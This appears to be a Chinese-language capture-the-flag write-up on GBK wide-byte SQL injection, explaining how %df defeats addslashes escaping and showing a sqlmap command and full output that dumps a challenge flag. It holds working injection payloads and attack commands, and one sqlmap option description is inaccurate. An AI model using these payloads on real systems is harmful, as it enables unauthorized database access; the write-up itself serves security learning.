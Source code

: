 SQL注入小技巧
================================

宽字节注入
--------------------------------
- 例题: ``http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1`` 

::

		%df’ 被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了 %df\’，
		其中\的十六进制是 %5C ，那么现在 %df\’ 	=%df%5c%27，如果程序的默认字符集是GBK等宽字节字符集，
		则MySQL用GBK的编码时，会认为 %df%5c 是一个宽字符，也就是縗’，也就是说：%df\’ = %df%5c%27=縗’，
		因为gbk是多字节编码，他认为两个字节代表一个汉字，所以%df和后面的\也就是%5c变成了一个汉字“運”，
		而’逃逸了出来，有了单引号就好注入了.

		http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df'

		--threads 10	//如果你玩过 msfconsole的话会对这个很熟悉 sqlmap线程最高设置为10
		--level 3 		//sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP 
						Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高可到5
		--risk 3 		// 执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
		--search 		//后面跟参数 -D -T -C 搜索列（S），表（S）和或数据库名称（S） 如果你脑子够聪明，
						应该知道库列表名中可能会有ctf,flag等字样.


- 执行 ``sqlmap -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1%df%27" --search -C flag --level 3 --risk 1 --thread 10`` 

::

		[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

		[*] starting at 05:36:28

		[05:36:29] [WARNING] it appears that you have provided tainted parameter values ('id=1%df'') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
		are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
		[05:36:30] [INFO] resuming back-end DBMS 'mysql'
		[05:36:30] [INFO] testing connection to the target URL
		[05:36:31] [INFO] heuristics detected web page charset 'ISO-8859-2'
		[05:36:31] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
		sqlmap resumed the following injection point(s) from stored session:
		---
		Parameter: id (GET)
			Type: boolean-based blind
			Title: AND boolean-based blind - WHERE or HAVING clause
			Payload: id=1%df' AND 5642=5642-- jbOi

			Type: AND/OR time-based blind
			Title: MySQL >= 5.0.12 AND time-based blind
			Payload: id=1%df' AND SLEEP(5)-- YtXh
		---
		[05:36:31] [INFO] the back-end DBMS is MySQL
		back-end DBMS: MySQL >= 5.0.12
		do you want sqlmap to consider provided column(s):
		[1] as LIKE column names (default)
		[2] as exact column names
		> 1
		[05:36:33] [INFO] searching columns LIKE 'flag' across all databases
		[05:36:33] [INFO] fetching number of databases with tables containing columns LIKE 'flag' across all databases
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 14
		[05:36:33] [INFO] resumed: sae-chinalover
		[05:36:33] [INFO] fetching number of tables containing columns LIKE 'flag' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: ctf4
		[05:36:33] [INFO] fetching columns LIKE 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: flag
		columns LIKE 'flag' were found in the following databases:
		Database: sae-chinalover
		Table: ctf4
		[1 column]
		+--------+
		| Column |
		+--------+
		| flag   |
		+--------+

		do you want to dump entries? [Y/n] y
		which database(s)?
		[a]ll (default)
		[sae-chinalover]
		[q]uit
		>
		which table(s) of database 'sae-chinalover'?
		[a]ll (default)
		[ctf4]
		[s]kip
		[q]uit
		>
		[05:36:36] [INFO] fetching entries of column(s) 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] fetching number of column(s) 'flag' entries for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] resumed: 1
		[05:36:36] [INFO] retrieving the length of query output
		[05:36:36] [INFO] resumed: 15
		[05:36:36] [INFO] resumed: nctf{gbk_3sqli}
		Database: sae-chinalover
		Table: ctf4
		[1 entry]
		+-----------------+
		| flag            |
		+-----------------+
		| nctf{gbk_3sqli} |
		+-----------------+

		[05:36:36] [INFO] table '`sae-chinalover`.ctf4' dumped to CSV file 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com\dump\sae-chinalover\ctf4.csv'
		[05:36:36] [INFO] fetched data logged to text files under 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com'

		[*] shutting down at 05:36:36

- 宽字节注入
	使用--tamper "unmagicquotes.py"参数。